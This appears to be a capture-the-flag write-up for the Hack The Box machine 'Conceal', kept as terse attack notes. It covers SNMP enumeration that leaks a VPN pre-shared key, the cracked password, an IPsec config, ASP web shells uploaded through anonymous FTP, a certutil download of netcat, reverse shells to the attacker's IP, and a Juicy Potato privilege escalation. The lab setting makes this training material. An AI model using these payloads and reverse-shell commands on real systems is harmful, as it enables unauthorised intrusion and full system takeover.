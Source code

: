 PORT      STATE         SERVICE      VERSION
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open          snmp         SNMPv1 server (public)
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds 
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown
Service Info: Host: Conceal


```
nmap -sU -sV -v --top-ports 20 10.10.10.116 
ike-scan  -M 10.10.10.116 
ike-scan  --ikev2 10.10.10.116
```
Only then you will find snmp ports

```
snmpwalk -c public -v1 10.10.10.116
```
Important info
```STRING: "IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43"```

Hash cracked - ```Dudecake1!```


Detected it is ike version 1 coz --ikev2 doesnot work at all. and by default packet is in --ikev1 format

VPN client StrongSwan- ike vpn client

Links for help for config:
```
https://www.howtoforge.com/tutorial/strongswan-based-ipsec-vpn-using-certificates-and-pre-shared-key-on-ubuntu-16-04/ 

https://wiki.strongswan.org/projects/strongswan/wiki/ConnSection

https://blog.ruanbekker.com/blog/2018/02/11/setup-a-site-to-site-ipsec-vpn-with-strongswan-and-preshared-key-authentication/
```
Final working config files

/etc/ipsec.conf
```
config setup
        charondebug="all"
        uniqueids=yes
        strictcrlpolicy=no
 
# connection to amsterdam datacenter
conn conceal
  authby=secret
  auto=start
  keyexchange=ikev1
  ike=3des-sha1-modp1024!
  esp=3des-sha1!
  left=10.10.14.21
  right=10.10.10.116
  rightsubnet=10.10.10.116[tcp]
  type=transport

```
/etc/ipsec.secret
```
10.14.21 10.10.10.116 : PSK "Dudecake1!"
```
Important commands for ipsec

```
ipsec restart
ipsec up conceal 
```
**Type=Transport is working, also need rightsubnet and with the protocol mentioned else it doesnot work**
**decrease mtu size to 1100 to avoid packet loss coz of dual VPNs**

NMAP -sT will work nothing else

anonymous login at ftp.
/upload/ directory found
put the si.asp via ftp anon login and go to /upload/ to execute file

.asp, .aspx not getting to work, use simple asp scripts to work

1.
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>

2.
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c certutil -urlcache -split -f http://10.10.14.21/nc.exe C:\\windows\temp\\nc.exe")
o = cmd.StdOut.Readall()
Response.write(o)
%>

3.
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c C:\\windows\temp\\nc.exe -e cmd.exe 10.10.14.21 443")
o = cmd.StdOut.Readall()
Response.write(o)
%>

Juicy Potato- Privesc
error 10038 if wrong clsid. 

https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Enterprise

Pick from the ones NT Authority/System ones

```cmd
jp.exe -l 1337 -p C:\Windows\system32\cmd.exe -a "/c %TEMP%\nc1.exe -e cmd.exe 10.10.14.21 444" -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```